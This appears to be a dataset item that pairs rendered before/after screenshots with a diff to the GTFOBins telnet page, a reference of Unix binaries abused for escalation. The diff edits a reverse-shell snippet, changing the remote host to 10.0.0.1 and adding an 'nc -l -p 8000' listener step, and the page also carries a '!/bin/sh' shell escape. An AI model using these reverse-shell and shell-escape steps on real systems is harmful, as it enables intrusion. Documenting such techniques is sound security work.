

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/telnet.md, in a window 1280 px wide. Shown: the whole page, without its empty margins (208-1066 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 1273 px from its top, so only the background shows below that.

Commit message:
Add missing descriptions

```diff
--- a/_gtfobins/telnet.md
+++ b/_gtfobins/telnet.md
@@ -9,8 +9,9 @@ functions:
         !/bin/sh
       description: MacOS only.
   reverse-shell:
-    - code: |
-        RHOST=127.0.0.1
+    - description: Run `nc -l -p 8000` to receive the shell on the other end.
+      code: |
+        RHOST=10.0.0.1
         RPORT=8000
         TF=$(mktemp)
         rm $TF
```
Also changed, not shown: _gtfobins/ruby.md (+7 -6 lines), _gtfobins/tar.md (+1 -2 lines), _gtfobins/wget.md (+2 -2 lines).
